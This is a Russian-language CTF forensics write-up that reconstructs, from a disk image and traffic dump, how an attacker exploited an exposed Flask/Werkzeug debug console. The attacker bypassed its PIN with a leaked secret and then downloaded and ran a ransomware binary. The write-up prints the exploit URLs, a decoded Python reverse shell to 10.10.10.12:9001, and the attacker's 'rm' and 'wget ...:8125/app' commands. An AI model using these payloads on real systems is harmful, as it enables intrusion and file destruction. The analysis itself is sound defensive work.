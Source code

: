 # Начало

## Изучение диска

Сначала я увидел `image.img` и `dump.pcapng` (на кали).

Сразу я решил открыть `image.img` через `testdisk` и скопировал себе в папку `image/` некоторые директории из корня:
`bin.usr-is-merged/`, `home/`, `media/`, `opt/`, `root/`, `tmp/`, `etc/`, `lib.usr-is-merged/`, `mnt/`, `proc/`, `sbin.usr-is-merged/`, `var/`

Сразу обратил внимание, что в `opt/` есть Addition для VirtualBox (эта информация не пригодилась)

Далее я обратил внимание на содержимое `/home/ioal/`. Там была папка `app/`, внутри которой вроде было приложение в докере, но все файлы оканчивались на `.enc` и внутри ничего не было понятно

## Запуск системы

После этого я решил запустить эту систему через

```
qemu-system-x86_64 \
 -m 4096 \
 -drive format=raw,file=image.img \
 -cpu host \
 -smp 6 \
 -machine type=q35,accel=kvm
```

Внутри была Ubuntu 24.04.1 LTS (Noble Numbat) и единственный аккаунт `ioal`

## Попытка входа

Пароль от него я не знал, поэтому решил скопировать себе `/etc/password` и `/etc/shadow`

Я прописал `fdisk --list image.img` и узнал оффсет раздела с убунтой - `4096` (`4096 * 512 = 2097152`)

Далее я создал папку `/mnt/tmp` (на кали) и прописал `sudo losetup --offset 2097152 /dev/loop667 image.img` и `sudo mount /dev/loop667 /mnt/tmp`

Таким образом я скопировал себе `/etc/password` и `/etc/shadow` и попытался узнать пароль от `ioal` с помощью `john`, но, к сожалению, не вышло (остановил проверку хеша на 58.1% на вордсете `rockyou.txt` (в кали `/usr/share/wordset/rockyou.txt.gz` распаковал через `gunzip` в `/usr/share/wordset/rockyou.txt`))

Тогда я просто решил `sudo chroot /mnt/tmp/` и через `useradd qwerty`, `passwd qwerty` создал себе пользователя, которому через `usermod qwerty -aG sudo` выдал доступ к `sudo` (я потом еще пожалел о том, что сразу не создал `/home/qwerty`, потому что файловый менеджер уничтожил мне виртуалку сообщениями об ошибке)

Я заметил, что хост называется `fileshare`, а так же его айпи (`ip a`):
- enp0s2: `10.0.2.15/24` (DNS `10.0.2.3`)
- br-4d2c7d1f6f87: `172.18.0.1/16`
- docker0: `172.17.0.1/16`

В `/root/.bash_history` я обнаружил следы, вероятно, организаторов:
```
cd nto-forensics/
ls
cp -r project /home/ioal/app
cd /home/ioal
ls
cd app
ls
cd ../
chown -h
chown --help
chown -hR ioal ./app
ls -al
exit
cd nto-forensics/
ls
ls -al
cd ../
```

И заметил, что в `/home/ioal/` нет никаких файлов

## Создание лога журнала

Дальше я сделал себе свой `system.log` при помощи `sudo journalctl --no-tail > /home/qwerty/main.log`, после чего срезал его до `/home/qwerty/prev.log` (без запуска 26 марта и позже, т.е. только 16 января и 22 января)

Я очень долго копался в логах журанала, но ничего толкового так и не нашел (нашел пару выключений при помощи кнопки выключения, несколько резких выключений, действия AppArmor'а (обычно над фаерфоксом) и всякое другое)

# Продолжение

После всего этого я устал и решил наконец открыть `dump.pcapng` (на кали)

Сначала я вслучайную нажимал на пакеты и в какой-то момент обнаружил в TCP DATA строку
```
root@7a5a67189bc9:/app#
```

И понял, что надо просто просмотреть все пакеты и оценить находки

## Действия в дампе трафика

Последовательно переключая пакеты я понял, что:

Все проделки идут от `10.10.0.12` через `10.10.10.3` (просто ретрансляция) на `172.18.0.3`

Как помнится по айпи на хосте, `172.18.0.0` - это мост докера (значит `172.18.0.3` - это сам сервис)

В докере был запущен python сервис, у которого был путь /console, доступ к которой получил злоумышлиник (`10.10.10.12` через `10.10.10.3`) и нашел там "SECRET"="yqqPfQiFZmXsmnZQYMPF" в разделе <script> в теле HTML

Далее злоумышлиник подобрал url так, что смог обойти пин-код при помощи этого secret'а
```
GET /console?__debugger__=yes&cmd=pinauth&pin=123-456-789&s=yqqPfQiFZmXsmnZQYMPF
```
и получил доступ к python консоли, в которую вписал реверс-шелл
```
/console?&__debugger__=yes&cmd=import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.10.12%22%2C9001))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bimport%20pty%3B%20pty.spawn(%22bash%22)&frm=0&s=yqqPfQiFZmXsmnZQYMPF
```
Команда реверс-шелла:
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.10.12",9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("bash")
```

И, получил доступ к `root` в докере при помощи `ls /dev`, 'mount /dev/sda2 /mnt`, `cd /mnt/home`

Потом прописал эти команды:
```
cd ioal
rm .*
cd ../
cd ioal
wget http://81.177.221.242:8125/app
```
`rm .*` удалил все файлы в домашней директории, а `wget` пожаловался на то, что директория `app` уже есть (в ней был сервис-докер)
```
ls
cd ../
wget http://81.177.221.242:8125/app
./app
chmod +x app
./app
exit
```

С помощью этих команд злоумышленник поднялся в `/home` и запустил шифровальщик

При запуске этот `app` несколько раз написал
```
CUSTOM_write found, patched.
ok
```
И затем
```
Encrypting .//app: Encrypting .//ioal/app/docker-compose.yml: Encrypting .//ioal/app/server/requirements.txt: Encrypting .//ioal/app/server/wait-for-postgres.sh: Encrypting .//ioal/app/server/Dockerfile: Encrypting .//ioal/app/server/templates/index.html: Encrypting .//ioal/app/server/__init__.py: Encrypting .//ioal/app/server/assets/css/listr.pack.css: Encrypting .//ioal/app/server/assets/css/custom.css: Encrypting .//ioal/app/server/assets/css/jquery.filer.css: Encrypting .//ioal/app/server/assets/fonts/fontawesome-webfont.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.ttf: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer-preview.html: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.svg: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.eot: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.woff: Encrypting .//ioal/app/server/assets/fonts/jquery.filer-icons/jquery-filer.cs
```

Таким образом все оставшиеся файлы в домашней директории и сам `app` были зашифрованы

# Решение задач

Я просто начал выписывать соответствующие пакеты + их содержимое и их номер + время

Когда я дошел до `app` я решил погуглить `"CUSTOM_write found"` и нашел единственную ссылку на проект на гитхабе ([linux-anti-debugging](https://github.com/tobyxdd/linux-anti-debugging/)), который использовал `ptrace` для обфускации

## Задание 2-6

Как настало время решать 2-6 я скачал `app` себе на кали при помощи таковой функции в wireshark'е (файл -> экспортировать объекты -> HTTP -> text/plain app)

Когда я решил открыть его в `ghidra`, я увидел в конце текст, который потом еще раз увидел при помощи `strings ./app`:
```
...
PROT_EXEC|PROT_WRITE failed.
_j<X
$Info: This file is packed with the t
Z executable packer http://upx.sf.net $
$Id: t
Z 4.24 Copyright (C) 1996-2024 the t
Z Team. All Rights Reserved. $
_RPWQM)
j"AZR^j
PZS^
/proc/self/exe
...
```

Этот `upx` был скачан на кали, но когда я использовал `upx -d ./app` он мне сказал, что не в его кондициях распаковать этот файл

Тогда я решил поэкспериментировать с этим приложением и пошифровал несколько тестовых файлов, но, к сожалению, не в моих силах было разобрать алгоритм шифрования

Проконсультировавшись с `gemini-2.5-pro-exp-03-25` и мне было предложено использовать `hexdump`, где я и увидел сигнатуру `beef dead bade c0fe` во всех зашифрованных файлах
